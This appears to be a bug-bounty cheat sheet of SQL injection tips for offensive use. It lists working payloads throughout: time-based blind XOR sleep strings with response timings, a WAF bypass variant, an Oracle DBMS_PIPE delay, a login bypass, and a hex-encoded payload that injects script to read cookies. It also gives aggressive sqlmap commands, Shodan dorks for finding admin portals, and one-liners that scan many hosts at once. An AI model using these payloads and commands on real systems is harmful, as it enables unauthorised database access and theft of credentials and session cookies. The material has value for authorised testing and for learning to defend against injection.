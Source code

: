 
							Finding SQLi TIPS
							------------------------

 #Tip1:-
 ==========
        - Fuzzing on subdomain.com on this wordlist [https://t.co/btRdm0tpcn]
	- But get all result 403
	- Search on shodan IPs
	- You can find the same service on
		subset.com
	- Fuzzing Again
	- subtest.domain/wp-content/mysql.sql


 #Tip 2:
 ========
	Finding SQLi using jeeves
	$ echo "example.com" | gf sqli | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 10
	[https://t.co/nZqYEhLgIE]


 #Tip 3:
 =======
**Try Error Base SQL injection **

	This is how to find sql-Injection of the time
	/?q=1
	/?q=1'
	/?q=1"
	/?q=[1]
	/?q[]=1
	/?q=1`
	/?q=1\
	/?q=1/*'*/
	/?q=1/*!1111'*/
	/?q=1'||'asd'||'   <== concat string
	/?q=1' or '1'='1
	/?q=1 or 1=1
	/?q='or''='
	/?q=")
	/?q=')
	/?q=-x()

**Try This Payload in Wp-login.php page**
	
	0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 20.002
	0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 7.282
	0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z => 0.912
	0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 16.553
	0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.463
	0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z => 1.229
	0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 7.79

 #Tip 4:
=========
	How to find SQLi using Shodan
	1. Shodan dork: SSL:""
	2. Found employee's admin portal and username input vulnerable to sqli.
	3. Sqlmap command:
	$ sqlmap  -r req.txt --batch --force-ssl --level 5 --risk 3 --dbs --hostname --current-user -p "username"
	$- sqlmap -u http://example.com --batch --banner --tamper=space2comment --user-agent=random

 #Tip 5:
=========
	SQL injection vulnerable to XSS:
	
 	Payload:
 	concat(0x3c7363726970743e70726f6d70742822,0x3078336e30,0x7c7c,user(),0x7c7c,database(),
        0x222c646f63756d656e742e636f6f6b6965293c2f7363726970743e)


 #Tip 6:
 =========
	SQLi payload in .html site and reflected in the title.
	example site: [example.com/index.html]
	website/example'+union+select+CONCAT_WS(0x203a20,USER(),DATABASE(),VERSION())+--+.html


 #Tip 7:
 ============
        You can inject header too with SQLi POC:
 	$ sqlmap -u "https://example.com" --header="X-Forwarded-For: 1*" --dbs --batch --random-agent --threads=10



 #Tip 8:
==========
 	- Uncover the Blind SQL injection with 'XOR' operator
 	/path/to/vuln?param=not_exist'XOR(if(now()=sysdate(),sleep(5),0))XOR'

	- Hanging with WAF
 	/path/to/vuln?param=not_exist%27XoR(if(nOw()=SySDaTe(),/**/SlEep(5),/**/0))XoR%27/*


	_Akami WAF Bypass & SQLi
	  'XOR(if(now()=sysdate(),sleep(5*5),0))OR'


 #Tip 9:
================
 
 	SQL injection:
 	In username,email parameter
	login, sigup, forget 
  
	Add this Sleep Payload 
	abdul'||DBMS_PIPE.RECEIVE_MESSAGE(CHR(98)||CHR(98)||CHR(98),10)||'


 #Tip 10:
==============
	~Admin Panel Access via sqli:
 	
 	1- Search for login page through with dork:
 	   org:"Target.com" http.title:"Login"
	2- Bypass login with old way
 	   admin' or 1=1

	++++++++++++++++++++++++++++++++++++++++++++++
 
	Useful onliner command to find sql using httpx:
	$ cat host.txt | httpx -c -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -p 80,443,8080,8443 | anew myP1s.txt


Tips 11:
=================

	SQLi-TimeBased scanner

	gau DOMAIN.tld  | sed 's/=[^=&]*/=YOUR_PAYLOAD/g' | grep ?*= | sort -u | while read host;do (time -p curl -Is $host) 2>&1 | awk '/real/ { r=$2;if (r >= TIME_OF_SLEEP ) print h " => SQLi Time-Based vulnerability"}' h=$host ;done

===================

Tips: 12:
========
	Oneliner Sqli:
	--------------
	findomain -t http://testphp.vulnweb.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1













